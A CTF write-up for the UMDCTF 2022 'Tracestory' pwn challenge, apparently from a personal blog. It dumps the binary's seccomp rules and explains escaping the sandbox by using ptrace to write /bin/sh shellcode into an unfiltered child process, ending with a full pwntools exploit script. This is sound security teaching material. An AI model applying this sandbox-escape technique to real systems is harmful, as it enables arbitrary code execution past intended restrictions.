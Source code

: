 ```yaml
---
title: UMDCTF 2022
date: 2022-03-07
categories: [ctf]
tags: [seccomp, ptrace]
---
```



# Tracestory

> I am trying to figure out the end of this story, but I am not able to read it. Could you help me figure out what it is?
>
> **Author**: WittsEnd2
>
> `0.cloud.chals.io 15148`

# Summary

This is a seccomp challenge where you have to utilize `ptrace` to change behavior of child process.

# Analysis

## Binary Analysis

Looking at `main` function, here are interesting things:

1. Uses seccomp
2. Uses fork
   1. Child process calls function called `read_story()`
   2. Parent process then calls `read_input()` then `setup_seccomp()`
3. Whatever gets written to `read_input()` will eventually be called as function in `var_1020()`

Child is forked off before `seccomp` rules gets applied.
Parent process gets input from user then just executes it. (Memory where they store the user function is mmaped with `xwr` permission)


## Seccomp Rules Analysis
![](/assets/img/2022-03-07-21-24-37.png)

Using `seccomp-tools`, you can dump the seccomp rules

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x18 0xc000003e  if (A != ARCH_X86_64) goto 0026
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x15 0xffffffff  if (A != 0xffffffff) goto 0026
 0005: 0x15 0x13 0x00 0x00000003  if (A == close) goto 0025
 0006: 0x15 0x12 0x00 0x00000004  if (A == stat) goto 0025
 0007: 0x15 0x11 0x00 0x00000005  if (A == fstat) goto 0025
 0008: 0x15 0x10 0x00 0x00000006  if (A == lstat) goto 0025
 0009: 0x15 0x0f 0x00 0x0000000a  if (A == mprotect) goto 0025
 0010: 0x15 0x0e 0x00 0x0000000c  if (A == brk) goto 0025
 0011: 0x15 0x0d 0x00 0x00000015  if (A == access) goto 0025
 0012: 0x15 0x0c 0x00 0x00000018  if (A == sched_yield) goto 0025
 0013: 0x15 0x0b 0x00 0x00000020  if (A == dup) goto 0025
 0014: 0x15 0x0a 0x00 0x00000021  if (A == dup2) goto 0025
 0015: 0x15 0x09 0x00 0x00000038  if (A == clone) goto 0025
 0016: 0x15 0x08 0x00 0x0000003c  if (A == exit) goto 0025
 0017: 0x15 0x07 0x00 0x0000003e  if (A == kill) goto 0025
 0018: 0x15 0x06 0x00 0x00000050  if (A == chdir) goto 0025
 0019: 0x15 0x05 0x00 0x00000051  if (A == fchdir) goto 0025
 0020: 0x15 0x04 0x00 0x00000060  if (A == gettimeofday) goto 0025
 0021: 0x15 0x03 0x00 0x00000065  if (A == ptrace) goto 0025
 0022: 0x15 0x02 0x00 0x00000066  if (A == getuid) goto 0025
 0023: 0x15 0x01 0x00 0x00000068  if (A == getgid) goto 0025
 0024: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0026
 0025: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0026: 0x06 0x00 0x00 0x00000000  return KILL
```

Simplified view of above rules

 ## allowed syscalls

```
 close
 stat
 fstat
 lstat
 mprotect
 brk
 access
 sched_yield
 dup
 dup2
 clone
 exit
 kill
 chdir
 fchdir
 gettimeofday
 ptrace
 getuid
 getgid
 exit_group
```

Looking at these syscall, only write primitive syscall was `ptrace` and also the challenge is called `trace_story` so it is very obvious that we would need to use `ptrace` eventually.

# Solution

We can use `ptrace` to overwrite child's text segment with our assembly code. Child process executes random code in a infinite loop so we can just overwrite the code in the beginning of the infinite loop.

Usual process for using `ptrace` function goes as follow
Attach to child process `ptrace(PTRACE_ATTACH, CHILD_PID, 0, 0)` -> Wait for child to attach `wait(0)` -> Write to child's text segment to change the code by `ptrace(PTRACE_POKETEXT, CHILD_PID, CODE_ADDRESS, 8_BYTES_OF_CODE)` -> Detach from child `ptrace(PTRACE_DETACH, CHILD_PID, 0, 0)`

Problem is we don't have `wait()` in our syscall. So we can probably use `gettimeofday` and calculate our time that way but as great Ken Thompson said once, `When in doubt, use brute force.` So I will just attach -> write_text -> detach -> go back to beginning and repeat.

## Exploit

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('trace_story')
context.terminal = ['tmux', 'splitw', '-h']



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(args.HOST, int(args.PORT))
    else:
        return process([exe.path] + argv, *a, **kw)



gdbscript = f'''
tbreak main
set follow-fork-mode parent
# set detach-on-fork off

b *0x401907
# b *0x401789
continue
'''.format(**locals())

# -- Exploit goes here --
"""
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
"""

io = start()


io.recvuntil("pid: ")
pid = int(io.recvline().strip())
print(f'pid is {pid}')




payload = "begin:"
payload += shellcraft.ptrace(constants.linux.PTRACE_ATTACH, pid, 0, 0)

binsh = asm(shellcraft.sh())
start_addr = 0x401789

for i in range(0, int(len(binsh)/8)):
    load_shit = u64(binsh[i * 8:8+(i*8)])
    payload += shellcraft.ptrace(constants.linux.PTRACE_POKETEXT, pid, start_addr + (i * 8), load_shit)

payload += shellcraft.ptrace(constants.linux.PTRACE_DETACH, pid, 0, 0)

payload += """
jmp begin
"""

io.sendlineafter(b'Input: \n', asm(payload))

io.interactive()
```
